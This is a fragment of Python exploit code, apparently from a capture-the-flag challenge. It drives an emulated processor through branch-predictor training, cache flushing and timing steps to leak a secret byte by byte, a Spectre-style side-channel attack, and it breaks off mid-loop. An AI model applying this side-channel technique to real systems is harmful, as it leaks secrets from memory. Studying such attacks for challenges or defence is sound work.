 ```python
    c.shl(r12, r9)
    c.store(r12, r8)

    c.movc(r9, 1)
    c.add(r15, r9)
    c.loop(0x100, target_l, r15)



def main(secret):
    if DEBUG:
        pause()
    c = Translator()
    c.start()

    init(c)

    train_bc(c)

    cache_clear(c)

    delay_fence(c)


    c.time()

    attack(c, secret)

    check_all(c)

    c.complete()

    if not DEBUG:
        final =  c.go()
        result = []
        for i in range(0x100):
            result.append(final[i * 2])
        return result
    else:
        p.send(c.content)

def explode():
    idx = 0 
    result = ''
    score = []
    count = 0
    for i in range(0x100):
        score.append(0)
    def ok(c):
        if c >= 32 and c <= 126:
            return True
        else:
            return False
    def clr(score):
        for i in range(0x100):
            score[i] = 0
    def chk(score):
        for i in range(0x100):
            if score[i] == 1:
                return i
        return -1
    while(True):
        tmp = main(idx)
```